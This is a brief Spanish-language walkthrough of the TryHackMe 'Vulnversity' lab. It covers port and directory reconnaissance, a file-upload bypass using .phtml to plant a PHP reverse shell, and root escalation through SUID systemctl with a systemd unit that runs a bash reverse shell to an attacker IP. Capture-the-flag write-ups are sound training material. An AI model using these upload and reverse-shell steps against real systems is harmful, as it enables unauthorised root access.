 ```yaml
---
draft: "true"
---
```


La máquina a explotar está en la room: https://tryhackme.com/r/room/vulnversity
## Reconocimiento de puertos
`sudo nmap -sV -O IP`

## Reconocimiento de rutas
`gobuster dir -u http://10.10.91.191:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`

## Uso de burpsuite
Subir la reverse shell de pentest monkey
[[php-reverse-shell.php]]

Con la burpsuite adivinamos que debe ser .phtml

## Obtención de reverse shell (user)

`nc -lvp 2222`
Ejecuto el archivo subido desde la web /internal/uploads

`find / -type f -name user.txt 2>/dev/null`


## Escalada de privilegios
`find / -user root -perm /4000 2>/dev/null`

Crear un servicio
```
[Unit]
Description=My Root Service

[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.23.31.178/4444 0>&1'
User=root
Type=simple

[Install]
WantedBy=multi-user.target
```

Subir eso a través de la web de /internal
`find / -type f -name root.phtml 2>/dev/null` 
`mv root.phtml > root.service`
`/bin/systemctl enable /var/www/html/internal/uploads/root.service 

En kali: `nc -lvp 4444`
En la máquina: `/bin/systemctl start root

`find / -type f -name root.txt`
